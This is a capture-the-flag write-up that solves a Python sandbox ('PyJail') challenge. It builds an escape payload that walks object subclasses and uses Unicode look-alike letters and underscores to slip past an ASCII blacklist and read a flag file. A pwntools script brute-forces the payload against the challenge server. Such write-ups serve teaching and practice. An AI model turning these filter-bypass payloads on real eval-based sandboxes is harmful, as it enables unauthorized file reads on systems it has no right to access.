

> **Difficulty:** **Medium**

> **Flag:** `uoftctf{zero_security_too_apparently_lmao}`

In this challenge, we are given the following PyJail:

```python
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"

    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")

code = input(">>> ")
safe_eval(code)
```

This code sanitizes our input by removing all builtins and enforcing a blacklist on alphanumeric characters and double underscores "__". This severely limits our ability to execute code, but as a wise man once said…


As soon as I saw this challenge, I immediately remembered two very similar challenges I solved from BYUCTF 2023: [one which removed builtins](https://github.com/BYU-CSA/BYUCTF-2023/tree/main/builtins-2) and [another which blacklisted alphanumeric characters](https://github.com/BYU-CSA/BYUCTF-2023/tree/main/a-z0-9). As this challenge is essentially a combination of the two, my solution incorporates similar techniques.

Our ultimate goal is to read the `flag` file whose name/path is visible in the Dockerfile. In the absence of any restrictions, we could do this with something like

```python
print(open('flag').read()) # (1)
```

However, here we have several restrictions which prevent this simple code injection. The first one we need to bypass is the removal of builtins, which are native Python functions (such as `print()`) that are typically available by default. To recover these, we can exploit [the dunder method hierarchy](https://www.tutorialsteacher.com/python/magic-methods-in-python) on Python objects like lists `[]`, tuples `()`, etc. In essence, we can traverse "up" and "down" the dunder method hierarchy to access all builtin methods which were removed in the sanitization. The following will do the same as (1) above, bypassing the builtins removal:

```python
().__class__.__bases__[0].__subclasses__()[121].get_data('.','flag') # (2)
```

(For more information on how this works, see [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins). Note that the index `121` may vary by machine, so some tweaking/bruting may be required.)

We can improve on (2) above to bypass the **__** blacklist by using Unicode character U+FF3F (`＿`) ([found here](https://www.compart.com/en/unicode/U+FF3F)). Amazingly, Python interprets this character as an underscore in code execution, yet it passes the blacklist check!

```python
()._＿class_＿._＿bases_＿[0]._＿subclasses_＿()[121].get_data('.','flag') # (3)
```

Now we need to bypass the alphanumeric character restriction, and this is where the challenge *really* begins. Buckle up, it's about to get messy…


First let us start with replacing all alphabet characters `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`. Just like with the underscores, we can utilize Unicode alphabet characters for parts of our exploit. The Python interpreter will perceive these as normal alphabet chars, but since they are not standard ASCII, they will bypass the blacklist check. I used some Unicode gothic alphabet characters (found [here](https://en.wikipedia.org/wiki/Mathematical_Alphanumeric_Symbols)) as suitable substitutes for most of the exploit above:

```python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[0]._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[121].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.','flag') # (4)
```

Notice that we cannot use these gothic characters for the `flag` file, since `flag` is spelled with standard ASCII alphabet characters, and using `𝖋𝖑𝖆𝖌` will attempt to open a file which doesn't exist. We need Python code which will form the string `flag` during execution without explicitly using those characters. To get around this, we can use the `__doc__` dunder attribute to obtain documentation about various objects and index that string to get the character we want. We can then concatenate the characters together to get the word `flag`! For example, to obtain the character **g**, we can use the following:

```python
()._＿𝖉𝖔𝖈_＿[38]
```

This will access the tuple documentation and get the 38th character (g):

```
Built-in immutable sequence.

If no argument is given, the constructor returns an empty tuple.
If iterable is specified the tuple is initialized from iterable's items.

If the argument is a tuple, the return value is the same object.
```

We can update (4) above using this method for all 4 characters of `flag` to get:

```python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[0]._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[121].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',()._＿𝖉𝖔𝖈_＿[31]+('' != '')._＿𝖉𝖔𝖈_＿[3]+()._＿𝖉𝖔𝖈_＿[14]+()._＿𝖉𝖔𝖈_＿[38]) # (5)
```

This will read the `flag` file, while bypassing all alphabet, double underscore, and builtins restrictions! Don't believe me? Let's do a sanity check:



The last restriction we need to bypass is the one on digits `0123456789`. This is where my payload becomes monstrously long, and I apologize in advance for any mental anguish or distress I cause readers of this writeup. Turn back now if you have a serious heart condition or experience nausea when subjected to unapologetically obnoxious one-liners of code.

The basic idea to replace digits (which two of my teammates, ahh and Matthias, helped me realize) is that in Python, `True`/`False` are interpreted as `1`/`0` when used in mathematical expressions. Thus, we can replace all numeric values in (5) with `True+True+True+...` for all integers > 0 and `False` in the case of 0. To avoid using the strings `True` and `False` *directly*, we can substitute expressions which *evaluate* to `True`/`False`, such as `('' == '')` (True) and `('' != '')` (False). Thus, to form any integer, we can just add arbitrary amounts of `('' == '') + ('' == '') + ...` together. While simple in concept, this substitution lengthens the payload **considerably :)**

```python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿['' == '𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',()._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')]+('' != '')._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')]+()._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')]+()._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')])
```

That's it! Now with it working locally, we just need to test it on the server. Remember that the index `121` for the `get_data` function I've been using may be different on the remote machine, so we need to brute force it. Besides that, the payload is essentially the same.

**Python Solution:**

```python
from pwn import *

# This function prints the sum of n identical expressions which evaluate to True
# The purpose of this is to construct any number (True + True == 2, etc.) without
# explicitly using alphanumeric characters
def printTrue(n):
    s = ""
    for i in range(n):
        s += "('' == '')+"
    return s[:-1]

# This spells out 'flag' (according to the Dockerfile, the flag is stored in 'flag')
code2 = "()._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')]+('' != '')._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')]+()._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')]+()._＿𝖉𝖔𝖈_＿[('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')+('' == '')]"


for i in range(1, 400): # Brute force the index of the builtins subclass (it is almost certainly different on local than remote)

    # Connect to server and construct payload
    r = remote('35.222.133.12', 5000)
    code1 = "()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿['' == '𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[" + printTrue(i) + "].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',"
    code = code1 + code2 + ')'

    # Send payload and retrieve the flag
    r.recvuntil(b'>>>')
    r.sendline(code.encode())
    line = r.recvline().rstrip().decode()

    # If we found the flag, then print it
    if 'uoft' in line:
        print(line.rstrip())
        r.close()
        exit()
    r.close()
```

Thanks for reading!


